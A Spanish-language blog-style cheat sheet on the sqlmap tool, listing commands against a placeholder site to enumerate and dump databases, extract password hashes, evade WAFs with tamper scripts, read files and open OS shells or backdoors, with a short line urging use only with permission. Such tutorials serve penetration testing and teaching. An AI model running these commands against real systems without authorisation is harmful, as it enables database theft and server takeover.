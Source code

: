 
---
title: "sqlmap: El maestro de las inyecciones SQL"
author: "l1ttl3bugc4t"
date: "2025-05-12"
tags: [sqlmap, SQL Injection, Pentesting, Red Team, Seguridad Web, Herramientas]
categories: [Cuaderno, Red Team & Chill, CyberChallenges]
---

**sqlmap** es una herramienta de código abierto que automatiza el proceso de detección y explotación de **SQL Injection** 💉📜  
Ideal para pruebas rápidas y potentes sobre aplicaciones web vulnerables.

---

## ⚙️ ¿Qué es sqlmap?

Es una herramienta escrita en Python que permite detectar y explotar inyecciones SQL en parámetros web.  
Además, puede hacer desde extracción de bases de datos hasta obtener shells interactivas en el servidor 😼

---

## 🚀 Comandos básicos

```bash
sqlmap -u "http://victima.com/producto.php?id=1" --dbs
```
Descubre las bases de datos disponibles.

```bash
sqlmap -u "http://victima.com/item.php?id=1" -D tienda -T usuarios --dump
```
Extrae datos de una tabla específica.

```bash
sqlmap -r request.txt --level 5 --risk 3 --batch
```
Usa un archivo de petición interceptada (por ejemplo, desde Burp).

---

## 🧪 Opciones útiles

| Opción | Descripción |
|--------|-------------|
| `--dbs` | Enumera las bases de datos |
| `--tables` | Enumera las tablas de una base de datos |
| `--columns` | Muestra las columnas de una tabla |
| `--dump` | Extrae el contenido |
| `--os-shell` | Intenta obtener una shell del sistema operativo |
| `--passwords` | Obtiene hashes de contraseñas |
| `--level` y `--risk` | Ajustan el grado de pruebas y agresividad |
| `--batch` | Ejecuta sin preguntar confirmaciones |
| `--tamper` | Usa scripts para evadir WAFs |

---

## 🔒 Bypass de WAFs

Puedes usar técnicas evasivas:

```bash
sqlmap -u "http://victima.com" --tamper=space2comment --level=5 --risk=3
```

Scripts comunes:

- `space2comment`
- `charunicodeencode`
- `between`
- `randomcase`

---

## 📁 Tip: usar archivo `.txt` de Burp

Intercepta una petición con Burp → guarda → y úsala con:

```bash
sqlmap -r request.txt --dbs
```

¡Perfecto para inyecciones en métodos POST, headers o JSON!

---

## 🎯 Casos de uso avanzados

- Detectar SQLi en múltiples URLs con `--crawl`
- Automatizar bruteforce de parámetros `--forms`, `--crawl=3`
- Obtener archivos con `--file-read`
- Crear backdoors: `--os-shell`, `--os-pwn`

---

## 🛡️ Ética en uso

sqlmap es muy poderosa. Úsala solo con **permiso expreso**.  
Es una herramienta para **defensa ofensiva**, no para explotación sin ética.

---

## ✨ Conclusión

**sqlmap** es como un bisturí para vulnerabilidades SQL: preciso, rápido y letal si se usa bien.  
Perfecto para l@s que quieren exfiltrar bases de datos con estilo 😈💜

> _"Una URL, una inyección… y toda la base de datos en tu terminal."_ — **l1ttl3bugc4t**

---
